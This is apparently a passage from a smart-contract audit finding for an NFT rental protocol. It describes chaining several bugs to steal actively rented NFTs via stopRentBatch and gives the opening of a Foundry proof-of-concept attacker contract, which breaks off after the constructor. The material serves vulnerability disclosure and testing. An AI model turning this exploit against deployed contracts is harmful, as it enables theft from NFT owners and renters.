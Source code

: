 The resulting state will be validated: attacker safe is now the owner of all the stolen NFTs and the victim RentalOrders can no longer be stopped (even after their expiration).
Place the following test inside of the /test/integration/ directory and run test with forge test --mc StealAllRentedNFTs_POC

The below PoC showcases how an attacker can leverage all the bugs described in this report to steal multiple actively rented NFTs via stopRentBatch.
```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.20;

import {BaseTest} from "@test/BaseTest.sol";

import {
    OrderType, 
    OrderMetadata, 
    RentalOrder,
    RentPayload,
    OrderFulfillment,
    Item,
    SettleTo,
    ItemType as reNFTItemType
} from "@src/libraries/RentalStructs.sol";

import {
    ConsiderationItem,
    OfferItem,
    OrderParameters,
    OrderComponents,
    Order,
    AdvancedOrder,
    ItemType,
    CriteriaResolver,
    Fulfillment, 
    FulfillmentComponent,
    OrderType as SeaportOrderType
} from "@seaport-types/lib/ConsiderationStructs.sol";

import {MockERC721} from "../mocks/tokens/standard/MockERC721.sol";
import {MockERC20} from "../mocks/tokens/standard/MockERC20.sol";
import {MockERC1155} from "../mocks/tokens/standard/MockERC1155.sol";
import {Seaport} from "../fixtures/external/Seaport.sol";
import {OrderParametersLib} from "@seaport-sol/SeaportSol.sol";
import {SafeL2} from "@safe-contracts/SafeL2.sol";
import {Stop} from "../fixtures/protocol/Protocol.sol";


contract AttackerContract {
    address safe;
    address seaportConduit;
    Seaport seaport;
    Order payOrder;
    Order payeeOrder;
    AdvancedOrder payAdvancedOrder;
    AdvancedOrder payeeAdvancedOrder;
    Fulfillment fulfillmentERC721;
    Fulfillment fulfillmentERC20;

    constructor (address _conduit, address _token, Seaport _seaport) public {
        seaportConduit = _conduit;
        seaport = _seaport;
        MockERC20(_token).approve(_conduit, type(uint256).max);
    }

```